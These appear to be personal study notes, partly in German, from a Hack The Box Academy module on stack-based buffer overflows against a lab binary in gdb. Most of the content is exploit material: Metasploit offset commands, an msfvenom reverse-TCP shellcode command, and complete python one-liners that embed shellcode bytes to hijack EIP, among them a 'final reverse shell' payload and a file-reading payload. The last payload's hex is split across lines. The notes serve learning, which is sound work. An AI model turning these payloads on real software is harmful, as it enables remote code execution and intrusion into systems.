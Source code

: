 Stack based Overflows

![image](https://academy.hackthebox.eu/storage/modules/31/buffer_overflow_1.png)

get the `instruction pointer` (`EIP`) under control
This will make the `EIP` point to the address where our `shellcode` starts and causes the CPU to execute it.

https://www.ins1gn1a.com/basics-of-gdb-and-pwndbg


![image](https://academy.hackthebox.eu/storage/modules/31/buffer_overflow_2.png)


Creating 1200 differnt chars and get offset

```shell-session
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
```

make sure to control the eip
```shell-session
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")
```

1.  We need a total of 1040 bytes to get to the `EIP`.
2.  Here, we can use an additional `100 bytes` of `NOPs`
3.  `150 bytes` for our `shellcode`.

![[docs/Pasted image 20210210191554.png]]

```shell-session
Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
     NOPs = "\x90" * 100
Shellcode = "\x44" * 150
      EIP = "\x66" * 4'
```

```shell-session
run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
```

![[docs/Pasted image 20210210191804.png]]

```shell-session
python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
```


echo $CHARS | wc -c 

```shell-session
(gdb) disas main
```

```shell-session
(gdb) break bowfunc 

Breakpoint 1 at 0x56555551
```

```shell-session
(gdb) x/2000xb $esp+500
```
x/wiederholung{format} Zieladresse + offset

Wir nehmen die ESP Adresse (da diese ja noch vor der EIP beschrieben wird)
esp            0xffffd174       0xffffd174

dann suchen wir ab wann die 0x55 beginnen
![[docs/Pasted image 20210213180657.png]]

nehmen das als start Adresse und zählen noch 5 Bytes dazu, damit wir extaxt beim Start ankommen, dann zählen wir die Anzahl der X55 prints dazu (minus 1 vorsichtshalber) um genau nach den X55 anzukommen und geben genau 256 Zeichen aus

![[docs/Pasted image 20210213180934.png]]

Am Ende sieht man das die EIP Überschreibung kommt mit X66

![[docs/Pasted image 20210213181107.png]]

# Create shell

```shell-session
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=9999 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellBuff
```

one line shell output

cat shellBuff | sed ':a;N;$!ba;s/\n//g' | sed 's/"//g'

```shell-session
Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
     NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4'
```

1040 bis EIP
124 für die NOPs
95 für die Shell
4 für den EIP


```shell-session
run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + \xb8\x99\xe6\x55\x7e\xd9\xcc\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x12\x31\x43\x12\x03\x43\x12\x83\x5a\xe2\xb7\x8b\x6d\x30\xc0\x97\xde\x85\x7c\x32\xe2\x80\x62\x72\x84\x5f\xe4\xe0\x11\xd0\xda\xcb\x21\x59\x5c\x2d\x49\x25\x9e\xcd\x88\xb1\x9c\xcd\xad\x4e\x28\x2c\x01\x36\x7a\xfe\x32\x04\x79\x89\x55\xa7\xfe\xdb\xfd\x56\xd0\xa8\x95\xce\x01\x60\x07\x66\xd7\x9d\x95\x2b\x6e\x80\xa9\xc7\xbd\xc3" + "\x66" * 4')
```

![[docs/Pasted image 20210213183354.png]]

info proc all

# Jump to NOPs

![image](https://academy.hackthebox.eu/storage/modules/31/buffer_overflow_9.png)

direkt the EIP to the NOPs

0x ff ff d6 e8

![[docs/Pasted image 20210213201521.png]]

```shell-session
run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xb8\x99\xe6\x55\x7e\xd9\xcc\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x12\x31\x43\x12\x03\x43\x12\x83\x5a\xe2\xb7\x8b\x6d\x30\xc0\x97\xde\x85\x7c\x32\xe2\x80\x62\x72\x84\x5f\xe4\xe0\x11\xd0\xda\xcb\x21\x59\x5c\x2d\x49\x25\x9e\xcd\x88\xb1\x9c\xcd\xad\x4e\x28\x2c\x01\x36\x7a\xfe\x32\x04\x79\x89\x55\xa7\xfe\xdb\xfd\x56\xd0\xa8\x95\xce\x01\x60\x07\x66\xd7\x9d\x95\x2b\x6e\x80\xa9\xc7\xbd\xc3" + "\xe8\xd6\xff\xff"')
```


![[docs/Pasted image 20210213203703.png]]

![[docs/Pasted image 20210213203839.png]]

# Skill Assessment



2060 bis EIP
2064 ink EIP

100 NOPs

2060 

```bash
"\x55" * 1804 + "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "\x66" * 4
```

Start of x55
0xffffcf98

95byte für die shell

shell 

```bash
\xbf\x9c\x76\x6b\x2d\xdd\xc5\xd9\x74\x24\xf4\x5d\x2b\xc9\xb1\x12\x83\xc5\x04\x31\x7d\x0e\x03\xe1\x78\x89\xd8\x28\x5e\xba\xc0\x19\x23\x16\x6d\x9f\x2a\x79\xc1\xf9\xe1\xfa\xb1\x5c\x4a\xc5\x78\xde\xe3\x43\x7a\xb6\xf9\xb9\x72\x4b\x96\xbf\x8a\x74\x69\x49\x6b\xca\x13\x19\x3d\x79\x6f\x9a\x34\x9c\x42\x1d\x14\x36\x33\x31\xea\xae\xa3\x62\x23\x4c\x5d\xf4\xd8\xc2\xce\x8f\xfe\x52\xfb\x42\x80
```

2060 - 100 - 95 = 1865

```bash
"\x55" * 1865 + "\x90" *100 + "\xbf\x9c\x76\x6b\x2d\xdd\xc5\xd9\x74\x24\xf4\x5d\x2b\xc9\xb1\x12\x83\xc5\x04\x31\x7d\x0e\x03\xe1\x78\x89\xd8\x28\x5e\xba\xc0\x19\x23\x16\x6d\x9f\x2a\x79\xc1\xf9\xe1\xfa\xb1\x5c\x4a\xc5\x78\xde\xe3\x43\x7a\xb6\xf9\xb9\x72\x4b\x96\xbf\x8a\x74\x69\x49\x6b\xca\x13\x19\x3d\x79\x6f\x9a\x34\x9c\x42\x1d\x14\x36\x33\x31\xea\xae\xa3\x62\x23\x4c\x5d\xf4\xd8\xc2\xce\x8f\xfe\x52\xfb\x42\x80"+ "\x66" * 4
```

NOP Adresse: 0x ff ff d7 25


	\x25\xd7\xff\xff

Final reverse shell

```bash
run $(python -c 'print "\x55" * 1865 + "\x90" *100 + "\xbf\x9c\x76\x6b\x2d\xdd\xc5\xd9\x74\x24\xf4\x5d\x2b\xc9\xb1\x12\x83\xc5\x04\x31\x7d\x0e\x03\xe1\x78\x89\xd8\x28\x5e\xba\xc0\x19\x23\x16\x6d\x9f\x2a\x79\xc1\xf9\xe1\xfa\xb1\x5c\x4a\xc5\x78\xde\xe3\x43\x7a\xb6\xf9\xb9\x72\x4b\x96\xbf\x8a\x74\x69\x49\x6b\xca\x13\x19\x3d\x79\x6f\x9a\x34\x9c\x42\x1d\x14\x36\x33\x31\xea\xae\xa3\x62\x23\x4c\x5d\xf4\xd8\xc2\xce\x8f\xfe\x52\xfb\x42\x80"+ "\x25\xd7\xff\xff"')
```


READ FILE
```bash
run $(python -c 'print "\x55" * 1860 + "\x90" *100 + "\xd9\xc5\xbe\xe4\xd7\x4a\xd5\xd9\x74\x24\xf4\
x5f\x29\xc9\xb1\x13\x31\x77\x18\x03\x77\x18\x83\xc7\xe0\x35\xbf\x3e\xde\x01\x45\xc1\x1e\x72\x1d\xf0\xd7\x
bf\x21\x7b\x24\x87\x21\x7c\xaa\xf8\xac\x9b\x23\x01\x14\x63\x23\xf2\x69\xa9\xc3\x7b\xab\x89\xc7\x7b\x2c\xe
a\x7c\x7a\x2c\xea\x82\xb0\xac\x52\x83\x4a\xad\xa2\x38\x4a\xad\xa2\x3e\x86\x2d\x4a\xfb\xe7\xd1\x74\x2c\x7d
\x5a\xe8\x1d\x0d\xc3\x9d\x12\x9a\x67\x62"+ "\x25\xd7\xff\xff"')
```